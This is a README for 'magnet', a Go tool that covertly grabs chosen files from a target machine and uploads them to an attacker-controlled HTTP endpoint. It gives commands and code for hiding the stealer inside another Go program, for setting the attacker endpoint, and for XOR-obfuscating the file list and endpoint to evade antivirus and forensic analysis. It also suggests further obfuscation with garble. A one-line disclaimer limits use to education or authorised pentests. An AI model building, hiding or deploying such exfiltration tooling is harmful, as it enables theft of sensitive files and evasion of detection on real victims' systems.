 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

**Program execution on target will stealthy provide you the files you ask for.**

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
```

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint string
```

2. Add magnet payload in the `main()`:
```golang
magnet.Magnet(FileList, Endpoint, Key, false)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'"`

see [declare `magnet`environment variables](#declare-magnet-envar)

### ⚡ Standalone



To build `magnet` binary in one step:
```shell
# ensure lobfuscator is in your PATH
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
```

See [`lobfuscator`](#build-lobfuscator) and [full example](https://github.com/ariary/magnet/blob/main/examples/EXAMPLES.md)


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Build `lobfuscator`
```shell
make build.lobfuscator
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINTS`envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
* `magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.
